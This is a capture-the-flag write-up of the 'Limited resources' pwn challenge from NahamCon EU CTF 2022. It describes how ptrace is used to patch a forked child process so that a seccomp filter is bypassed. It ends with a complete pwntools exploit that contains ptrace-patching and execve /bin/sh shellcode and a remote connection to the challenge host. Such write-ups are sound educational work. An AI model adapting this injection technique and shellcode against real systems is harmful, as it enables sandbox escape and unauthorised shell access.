 ## Limited resources

was a pwn challenge from NahamCon EU CTF 2022.<br>

a relatively hard challenge, it only had 5 solves at the end of the ctf.<br>

the program has no PIE and only partial RELRO as you can see:<br>

![](./pics/checksec.png)

when we launch it the program, after a small setup, immediatly fork,

the child process is an endless loop that does almost nothing as you can see in the reversed C code:

```c
{
    buffer = (char *)malloc(0x100uLL);
    while ( 1 )
    {
      strcpy(test_buffer, "Hello world!\n");
      if ( !strncmp(test_buffer, "Give me the flag!", 0x11uLL) )
        printf("I will not give you the flag!");
      cmp = strncmp(test_buffer, "exit", 4uLL);
      if ( !cmp )
        break;
      sleep(0x3E8u);
    }
  }
```

the child copy a string to a buffer on stack, then check if this buffer contains another string, in this case display a message, or exit..then sleep 1000 seconds, and loop indefinitely...<br>

pretty useless code as you can see..<br>

the parent process is more interesting, it displays this menu:<br>

```
Enter the command you want to do:
1) Create Memory
2) Get Debug Informationn
3) Execute Code
4) Exit
```

the option 1,  allocate a memory of the wanted size with mmap, then you can choose its permissions, and copy the data you want in it..(it will be a shellcode off course...)<br>

the option 2,  return the pid of the child.<br>

the option 3, will permit you to execute any function at any address, and before jumping to this code will setup a seccomp that looks like this: <br>

![](./pics/seccomp.png)

it will allows these listed syscalls, and forbid any others..<br>

so no `open`, `read`, `write`, no `execve`...<br>

pretty limited..but not so much...<br>

### the exploitation

well the way I exploit it (and it seems it is the intended way), is to trace the child with the parent with ptrace syscall (that is allowed)<br>

we attach to the child, than we use ptrace POKEDATA function to modify it's code, and patch the program memory of child.<br>

as the program as no PIE, we know were are the child instruction in memory.<br>

if you look at child code disassembly, you can see that the end of his loop, the `sleep()` calls, is followed by a `jmp` instruction that will go to the start of the loop.<br>

![](./pics/ida1.png)

so we can patch this `jmp` instruction with `nop` instructions to remove it.<br>

and when child will awake from `sleep()` call, it will goes in parent menu loop, instead of restarting his meaningless loop...

we will patch also the call to `ProtectProgram()` that setup the seccomp in the child code..<br>

like this, when the child will awake from sleep(), we will make it execute a simple `execve` shellcode, and we will get an unrestricted shell<br>

I added a patched binary `limited_resources_patched` in my github for the local tests, to have a small sleep() of only 10 seconds..<br>

![](./pics/gotflag.gif)

### exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

# patched binary version with shorter sleep
exe = ELF('./limited_resources_patched')

host, port = "challenge.nahamcon.com", "32422"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

sla('Exit\n','2')
pid = int(rcu('PID = ','\n'),10)
logleak('pid',pid)

shellc = asm('''
looping:

  mov ebp,%d		/* ebp = pid of child */
// ptrace(PTRACE_ATTACH,child,0,0)
  mov edi,0x10
  mov esi,ebp
  xor edx,edx
  xor r10,r10
  mov eax,101
  syscall

// wait a bit
  mov rcx,0xffffffff
wait:
  nop
  nop
  loop wait

/* patch program to remove jmp after call to sleep() */
/* ptrace(PTRACE_POKEDATA,chid, addr, data */
  mov edi,5
  mov esi,ebp
  mov edx,0x4018df
  mov r10,0xE800402090bf9090
  mov eax,101
  syscall

/* patch program to remove call to protectprogram() */
/* ptrace(PTRACE_POKEDATA,chid, addr, data */
  mov edi,5
  mov esi,ebp
  mov edx,0x401aa9
  mov r10,0x9090909090000000
  mov eax,101
  syscall

// ptrace(PTRACE_DETACH,child,0,0
  mov edi,0x11
  mov esi,ebp
  xor edx,edx
  xor r10,r10
  mov eax,101
  syscall


loopit:
 jmp loopit

format:
  .ascii "result = %%llx"
  .byte 10

''' % pid)

# create a RWX mem zone
sla('Exit\n','1')
sla('be?\n', '140000')
sla('y?\n', '7')
sla('de?\n', shellc)
# leak buffer address
buffer = int(rcu('at ', '\n'),16)
logleak('buffer at', buffer)

sla('Exit\n','3')
sla('code?\n', hex(buffer))

shellc2 = asm('''
	xor esi, esi
	push rsi
	mov rbx, 0x68732f2f6e69622f
	push rbx
	push rsp
	pop rdi
	imul esi
	mov al, 0x3b
	syscall
  ''')

# now the client is in menu loop
# but without call to seccomp before execute
sla('Exit\n','1')
sla('be?\n', '4096')
sla('y?\n', '7')
sla('de?\n', shellc2)

# send execve shellcode to client
shellc2_addr = int(rcu('at ', '\n'),16)
logleak('shellcode at', shellc2_addr)

sla('Exit\n','3')
sla('code?\n', hex(shellc2_addr))

# got flag
p.sendline('id;cat flag*')

p.interactive()
```

*nobodyisnobody still on the pwning side of life..*
